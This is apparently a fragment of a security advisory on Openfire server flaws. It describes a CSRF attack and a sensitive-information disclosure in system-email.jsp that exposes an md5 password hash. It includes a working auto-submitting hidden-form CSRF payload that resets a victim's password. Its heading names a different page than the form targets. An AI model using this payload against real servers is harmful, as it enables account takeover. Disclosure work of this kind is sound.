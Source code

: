 #### *client-connections-settings.jsp* is vulerable to a CSRF attack.

The following HTML iframe command allows reproducing the attack against the Openfire *client-connections-settings.jsp* page.

```
<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://OpenFireServerIP:9090/user-password.jsp" method="post" target="csrf-frame" >
    <input type="text" name="username" value="victim" >
    <input type="text" name="password" value="evil" >
    <input type="text" name="passwordConfirm" value="evil" >
    <input type="text" name="update" value="Update+Password" >
</form>

<script>document.getElementById("csrf-form").submit()</script>
```

### Affected versions

* Version 4.0.0 and 4.0.1


## Sensitive information disclosure in OpenFire Server <=3.10.2

**Access Vector**: remote

**Security Risk**: low

**Vulnerability**: CWE-200

**CVSS Base Score**: 5.5

[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:L/A:N/E:F/RL:O

### Vulnerability Description

A sensitive information disclosure vulnerabilty is present in the page *system-email.jsp*. It allow's an authenticated user to retreive the md5 hash the password of an email account.

### Vulnerable code

The following HTML code is reveived by an authenticated user on the page system-email.jsp. The md5 hash of the password is sent to the user.

```
<tr>
    <td nowrap>
        Server Username (Optional):
    </td>
    <td nowrap>
        <input type="text" name="server_username" value="myusername" size="40" maxlength="150">
    </td>
</tr>
<tr>
    <td nowrap>
        Server Password (Optional):
    </td>
    <td nowrap>
        <input type="password" name="server_password" value="34819d7beeabb9260a5c854bc85b3e44" size="40" maxlength="150">
    </td>
</tr>
```


[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:H/UI:R/S:U/C:H/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O
[comment]: https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:L/I:L/A:N/E:F/RL:O